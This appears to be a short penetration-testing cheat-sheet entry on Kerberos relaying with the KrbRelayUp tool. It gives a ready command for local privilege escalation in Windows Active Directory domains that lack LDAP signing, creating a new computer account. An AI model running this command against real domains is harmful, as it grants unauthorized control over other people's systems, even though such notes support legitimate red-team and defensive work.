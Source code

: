 # Kerberos Relaying

### KrbRelayUp

> A universal no-fix local privilege escalation in windows domain environments where LDAP signing is not enforced (the default settings).

One of the requirements for this attack to work is for LDAP Signing to be disabled within the Active Directory environment.

```bash
# Escalate privileges using KrbRelayUp
## https://github.com/Dec0ne/KrbRelayUp
.\KrbRelayUp.exe relay -Domain $domain -CreateNewComputerAccount -ComputerName $evilname -ComputerPassword $password 
```

